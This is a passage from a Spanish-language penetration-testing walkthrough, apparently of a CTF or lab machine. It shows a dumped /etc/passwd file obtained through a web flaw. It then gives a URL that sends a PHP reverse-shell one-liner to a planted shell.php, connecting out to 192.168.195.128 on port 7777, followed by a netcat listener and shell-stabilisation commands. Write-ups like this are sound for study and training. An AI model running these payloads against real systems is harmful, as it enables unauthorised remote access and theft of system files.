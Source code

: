 ```
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin _apt:x:100:65534::/nonexistent:/usr/sbin/nologin systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin messagebus:x:104:110::/nonexistent:/usr/sbin/nologin avahi-autoipd:x:105:113:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/usr/sbin/nologin sshd:x:106:65534::/run/sshd:/usr/sbin/nologin avahi:x:107:117:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin saned:x:108:118::/var/lib/saned:/usr/sbin/nologin colord:x:109:119:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin hplip:x:110:7:HPLIP system user,,,:/var/run/hplip:/bin/false dusk:x:1000:1000:dusk,,,:/home/dusk:/bin/bash systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin mysql:x:111:120:MySQL Server,,,:/nonexistent:/bin/false postfix:x:112:121::/var/spool/postfix:/usr/sbin/nologin postfix:x:112:121::/var/spool/postfix:/usr/sbin/nologin
```

Vemos que funciona, por lo que haremos lo siguiente...

```
URL = http://<IP>:8080/shell.php?cmd=php%20-r%20%27$sock=fsockopen(%22192.168.195.128%22,7777);$proc=proc_open(%22sh%22,%20array(0=%3E$sock,%201=%3E$sock,%202=%3E$sock),$pipes);%27
```

Lo que vamos hacer aqui es hacer una `Reverse Shell`...

```shell
nc -lvnp <PORT>
```

Y con esto ya estariamos con el usuario `www-data` con una shell dentro del servidor...

Ahora tendremos que sanitizar la shell...

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```
